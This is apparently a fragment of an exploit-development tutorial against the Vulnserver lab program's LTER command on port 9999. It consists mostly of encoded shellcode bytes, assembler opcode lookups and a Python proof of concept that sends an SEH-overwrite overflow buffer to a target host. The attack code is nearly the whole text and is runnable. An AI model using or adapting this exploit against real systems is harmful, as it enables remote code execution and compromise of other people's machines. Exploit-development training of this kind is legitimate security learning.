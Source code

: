 ```term
buf += b"\x4d\x31\x7a\x75\x51\x6e\x6d\x6b\x35\x48\x32\x63\x30"
buf += b"\x67\x70\x33\x30\x30\x50\x55\x38\x45\x61\x6e\x6b\x52"
buf += b"\x4f\x6f\x77\x4b\x4f\x4e\x35\x6f\x4b\x6d\x30\x47\x6d"
buf += b"\x44\x6a\x66\x6a\x31\x78\x4c\x66\x4e\x75\x4f\x4d\x6f"
buf += b"\x6d\x4b\x4f\x68\x55\x67\x4c\x33\x36\x71\x6c\x77\x7a"
buf += b"\x6b\x30\x69\x6b\x59\x70\x30\x75\x73\x35\x4d\x6b\x72"
buf += b"\x67\x57\x63\x53\x42\x52\x4f\x63\x5a\x53\x30\x36\x33"
buf += b"\x59\x6f\x58\x55\x53\x53\x70\x61\x42\x4c\x70\x63\x46"
buf += b"\x4e\x72\x45\x32\x58\x65\x35\x53\x30\x41\x41"
```

```term
nasm > PUSH EBX
00000000  53                push ebx
nasm > POP EAX
00000000  58                pop eax 
```

###### PoC code:

```term
import socket, sys, struct

[shellcode]

alignment = ""
alignment += "\x54\x58\x54\x5B"
alignment += "\x66\x05\x58\x13"
alignment += "\x50\x5C"
alignment += "\x53\x58"

nseh = struct.pack("<I", 0x06710870)
seh = struct.pack("<I", 0x6250195E)

buffer = "LTER /.:/" + "A" * 3 + buf + "A" * (3515  - 3 - len(buf)) + nseh + seh + "A" * 2 + alignment + "A" * 200

host = sys.argv[1]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

##### Once this is sent, it can be seen near the start of our buffer.
